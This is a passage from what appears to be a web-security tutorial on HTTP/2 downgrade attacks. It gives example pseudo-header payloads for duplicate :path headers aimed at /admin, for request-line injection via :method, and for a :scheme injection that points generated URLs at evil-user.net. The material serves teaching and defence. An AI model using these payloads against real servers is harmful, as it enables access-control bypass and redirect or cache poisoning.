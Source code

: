 Trying to send a request with an ambiguous path is not possible in HTTP/1 due to how the request line is parsed. But as the path in HTTP/2 is specified using a pseudo-header, it's now possible to send a request with two distinct paths as follows:

```
:method 	POST
:path 	/anything
:path 	/admin
:authority 	vulnerable-website.com
```

### Injecting a full request line

During downgrading, the value of the `:method` pseudo-header will be written to the very beginning of the resulting HTTP/1 request. If the server allows you to include spaces in the `:method` value, you may be able to inject an entirely different request line as follows:

**Front-end (HTTP/2)**

```
:method 	GET /admin HTTP/1.1
:path 	/anything
:authority 	vulnerable-website.com
```

**Back-end (HTTP/1)**

```http
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vulnerable-website.com
```

### Injecting a URL prefix

Another interesting feature of HTTP/2 is the ability to explicitly specify a scheme in the request itself using the `:scheme` pseudo-header. Although this will ordinarily just contain `http` or `https`, you may be able to include arbitrary values.

This can be useful when the server uses the `:scheme` header to dynamically generate a URL, for example. In this case, you could add a prefix to the URL or even override it completely by pushing the real URL into the query string:

**Request**

```
:method 	GET
:path 	/anything
:authority 	vulnerable-website.com
:scheme 	https://evil-user.net/poison?
```

**Response**

```
:status 	301
location 	https://evil-user.net/poison?://vulnerable-website.com/anything/
```

